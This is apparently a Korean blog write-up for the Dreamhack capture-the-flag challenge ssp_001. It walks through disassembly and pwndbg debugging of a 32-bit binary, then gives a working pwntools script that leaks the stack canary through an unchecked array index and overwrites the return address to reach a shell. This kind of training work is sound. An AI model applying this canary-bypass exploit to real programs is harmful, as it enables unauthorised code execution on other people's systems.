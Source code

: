 ```yaml
---
title: ssp_001
author: hwang
date: 2024-05-13 14:30:00 +0900
categories: [Dreamhack, System Hacking]
tags: [ssp_001]     # TAG names should always be lowercase
---
```


## Description
이 문제는 작동하고 있는 서비스(ssp_001)의 바이너리와 소스코드가 주어집니다.
프로그램의 취약점을 찾고 SSP 방어 기법을 우회하여 익스플로잇해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.

## Environment
```text
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Solution
먼저, 주어진 Envrionment 정보를 확인해보자. NX와 Canary가 적용되었다. 

주어진 C코드를 분석해보자.

이 문제에는 get_shell()함수를 통해 직접 쉘에 접근할 수 있다. ELF symbol 테이블에서 꺼내 쓰면 된다. 또한, print_box()함수에 idx의 범위가 주어지지 않았다. 이를 통해 적절한 idx값을 넣어 Canary값을 읽을 수 있다.

이후, pwndbg로 디버깅 하였다.
```bash
$ sudo gdb -q ssp_001

pwndbg> disass main
```
Canary가 사용된 부분을 확인하였다.
```text
   0x0804873e <+19>:	mov    eax,gs:0x14
   0x08048744 <+25>:	mov    DWORD PTR [ebp-0x8],eax


   0x0804886c <+321>:	mov    edx,DWORD PTR [ebp-0x8]
   0x0804886f <+324>:	xor    edx,DWORD PTR gs:0x14
   0x08048876 <+331>:	je     0x8048884 <main+345>
   0x08048878 <+333>:	jmp    0x804887f <main+340>
   0x0804887a <+335>:	jmp    0x8048790 <main+101>
   0x0804887f <+340>:	call   0x80484e0 <__stack_chk_fail@plt>
   0x08048884 <+345>:	mov    edi,DWORD PTR [ebp-0x4]
   0x08048887 <+348>:	leave  
   0x08048888 <+349>:	ret    
End of assembler dump.
```
처음에 eax레지스터에 gs:0x14을 저장하고, 이를 ebp-0x8에 저장한다. 이후, ebp-0x8과 gs:0x14을 xor하여 값의 변화가 있을 경우 <__stack_chk_fail@plt>을 호출하여 프로그램을 강제로 종료한다.

select의 위치는 [ebp-0x8a]이다.
```text
   0x08048795 <+106>:	push   0x2 # push 2
   0x08048797 <+108>:	lea    eax,[ebp-0x8a] # eax = select
   0x0804879d <+114>:	push   eax # push select
   0x0804879e <+115>:	push   0x0 # push 0
   0x080487a0 <+117>:	call   0x80484a0 <read@plt> # read(0, select, 2)
```

box의 위치는 [ebp-0x88]이다.
```text
   0x080487d3 <+168>:	push   0x40 # push 0x40(sizeof(box))
   0x080487d5 <+170>:	lea    eax,[ebp-0x88] # eax = box
   0x080487db <+176>:	push   eax # push box
   0x080487dc <+177>:	push   0x0 # push 0
   0x080487de <+179>:	call   0x80484a0 <read@plt> # read(0, box, sizeof(box));
   ```

idx의 위치는 [ebp-0x94]이다.
```text
   0x080487f8 <+205>:	lea    eax,[ebp-0x94] # eax = idx
   0x080487fe <+211>:	push   eax # push idx
   0x080487ff <+212>:	push   0x804898a # push "%d"
   0x08048804 <+217>:	call   0x8048540 <__isoc99_scanf@plt> # scanf("%d", &idx);
   ```

 name_len의 위치는 [ebp-0x90]이다.  
```text
   0x08048831 <+262>:	lea    eax,[ebp-0x90] # eax = name_len
   0x08048837 <+268>:	push   eax # push name_len
   0x08048838 <+269>:	push   0x804898a # push "%d"
   0x0804883d <+274>:	call   0x8048540 <__isoc99_scanf@plt> # scanf("%d", &name_len);
   ```

name의 위치는 [ebp-0x48]이다.
```text
   0x08048852 <+295>:	mov    eax,DWORD PTR [ebp-0x90] # eax = name_len
   0x08048858 <+301>:	push   eax # push name_len
   0x08048859 <+302>:	lea    eax,[ebp-0x48] # eax = name
   0x0804885c <+305>:	push   eax # push name
   0x0804885d <+306>:	push   0x0 # push 0
   0x0804885f <+308>:	call   0x80484a0 <read@plt> # read(0, name, name_len);
   ```

ebp 레지스터의 값을 확인하기 위해, main+25에 breakpoint를 지정하고, ebp 위로 4개의 주소를 읽었다.

ebp의 값은 0xf7ffd020이다.
```bash
pwndbg> b *main+25
pwndbg> c
pwndbg> x/4wx $ebp

0xffffd678:	0xf7ffd020	0xf7c21519	0x00000001 0xffffd734
```
이제 canary의 값을 살펴보겠다. $ebp-0x8에 카나리값이 작성된 직후의 레지스터를 확인하겠다.

canary의 값은 0x14d8b900이다.
```bash
pwndbg> ni
pwndbg> x/4wx $ebp - 0x8

0xffffd670:	0x14d8b900	0xf7ffcb80	0xf7ffd020	0xf7c21519

pwndbg> canary
AT_RANDOM = 0xffffd84b # points to (not masked) global canary value
Canary    = 0x14d8b900 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│-2ac 0xffffd3cc ◂— 0x14d8b900
00:0000│-008 0xffffd670 ◂— 0x14d8b900
00:0000│+054 0xffffd6cc ◂— 0x14d8b900
```
ebp와 canary 사이에 0xf7ffcb80, 4바이트의 덤프값이 존재한다.

ret값은 0xf7c21519이다.

이제, 주어진 정보를 바탕으로 Exploit코드를 만들어 보았다.
```python
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./ssp_001')
#p = remote('host3.dreamhack.games', 12275)

e = ELF('./ssp_001')
get_shell = e.symbols['get_shell']

canary = b""

# Canary 값을 출력, 이때, little-endian 방식을 고려하여 index 넣기
for i in range(3, -1, -1):
    p.recvuntil(b'> ')
    p.send(b'P')
    value = 128 + i
    byte_representation = bytes(str(value), 'utf-8')
    p.sendlineafter(b'Element index : ', byte_representation)
    p.recvuntil(b': ')
    canary += p.recvn(2)

canary = int(canary, 16)
slog('Canary Address', canary)

# name 버퍼를 임의로 채운 후 카나리 값을 32비트로 패킹, 
# 이후 더미 4바이트와 ebp 4바이트를 임의로 채우고 ret에 get_shell값을 32비트로 패킹하여 전송
payload = b'A' * 64 + p32(canary) + b'B' * 8 + p32(get_shell)

p.sendlineafter(b'> ', b'E')
p.sendlineafter(b'Name Size : ', str(1000))
p.sendlineafter(b'Name : ', payload)

p.interactive()
```
실행 결과는 다음과 같다.
```bash
[+] Starting local process './ssp_001': pid 2903
[*] '/home/hwangshincheol/test/ssp_001/ssp_001'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Canary Address: 0xf1f1000
/home/hwangshincheol/test/ssp_001/ssp_001.py:28: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter(b'Name Size : ', str(1000))
[*] Switching to interactive mode
$
```